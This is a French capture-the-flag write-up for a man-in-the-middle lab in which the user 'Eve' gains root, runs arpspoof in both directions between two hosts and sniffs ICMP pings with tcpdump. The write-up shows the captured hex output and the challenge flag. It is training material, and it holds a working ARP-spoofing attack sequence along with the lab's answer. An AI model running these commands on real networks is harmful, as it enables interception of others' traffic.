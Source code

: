 Une fois la commande effectuée le participant arrive sur le terminal d'Eve :

```bat
Bonjour, dans cette épreuve Alice et Bob s'échangent des pings.
Votre objectif est d'intercepter leurs messages dans lesquels il y a les flags.

/!\ Le mot de passe de Eve est "Eve". /!\

Eve@Red-man:~$ 
Eve@Red-man:~$ 
```

Voici un exemple de commandes à réaliser afin de réussir l'épreuve (sans leur résultat) :

```bat
Eve@Red-man:~$ sudo su
root@Red-man:/home/Eve# arpspoof -i eth0 -t 172.50.0.2 172.50.0.3 > /dev/null 2>&1 &
root@Red-man:/home/Eve# tcpdump icmp -X
```

Après avoir fait la commande arpspoof, la commande tcpdump donne :

```bat
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
14:50:24.759101 IP alice-red-man.MITM > Red-man: ICMP echo request, id 54, seq 1, length 64
 0x0000:  4500 0054 db66 4000 4001 06d8 ac32 0002  E..T.f@.@....2..
 0x0010:  ac32 0004 0800 2609 0036 0001 b046 bf61  .2....&..6...F.a
 0x0020:  0000 0000 d494 0b00 0000 0000 2020 2020  ................
 0x0030:  2020 2020 2020 2020 2020 2020 2020 2020  ................
 0x0040:  2020 2020 2020 2020 2020 2020 2020 2020  ................
 0x0050:  2020 2020                                ....
14:50:24.759101 IP alice-red-man.MITM > bob-red-man.MITM: ICMP echo request, id 55, seq 1, length 64
 0x0000:  4500 0054 e25b 4000 4001 ffe3 ac32 0002  E..T.[@.@....2..
 0x0010:  ac32 0003 0800 5002 0037 0001 b046 bf61  .2....P..7...F.a
 0x0020:  0000 0000 d094 0b00 0000 0000 3a20 4d40  ............:.M@
 0x0030:  7263 3020 666c 6167 3a20 4d40 7263 3020  rc0.flag:.M@rc0.
 0x0040:  666c 6167 3a20 4d40 7263 3020 666c 6167  flag:.M@rc0.flag
 0x0050:  3a20 4d40                                :.M@
```

Nous pouvons voir le premier flag, celui qu'Alice envoie à Bob, M@rc0.

Cependant, pour réaliser une attaque Man-In-The-Middle, il est nécessaire de réaliser la même commande arpspoof, mais en inversent les adresses ip :

```bat
root@Red-man:/home/Eve# arpspoof -i eth0 -t 172.50.0.3 172.50.0.2 > /dev/null 2>&1 &
[2] 18
root@Red-man:/home/Eve# tcpdump icmp -X
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
15:01:15.498614 IP alice-red-man.MITM > bob-red-man.MITM: ICMP echo request, id 185, seq 1, length 64
 0x0000:  4500 0054 26c3 4000 3f01 bc7c ac32 0002  E..T&.@.?..|.2..
 0x0010:  ac32 0003 0800 a577 00b9 0001 3b49 bf61  .2.....w....;I.a
 0x0020:  0000 0000 f39a 0700 0000 0000 3a20 4d40  ............:.M@
 0x0030:  7263 3020 666c 6167 3a20 4d40 7263 3020  rc0.flag:.M@rc0.
 0x0040:  666c 6167 3a20 4d40 7263 3020 666c 6167  flag:.M@rc0.flag
 0x0050:  3a20 4d40                                :.M@
15:01:15.498634 IP Red-man > alice-red-man.MITM: ICMP echo reply, id 184, seq 1, length 64
 0x0000:  4500 0054 5f83 0000 4001 c2bb ac32 0004  E..T_...@....2..
 0x0010:  ac32 0002 0000 7d7e 00b8 0001 3b49 bf61  .2....}~....;I.a
 0x0020:  0000 0000 fd9a 0700 0000 0000 2020 2020  ................
 0x0030:  2020 2020 2020 2020 2020 2020 2020 2020  ................
 0x0040:  2020 2020 2020 2020 2020 2020 2020 2020  ................
 0x0050:  2020 2020                                ....
```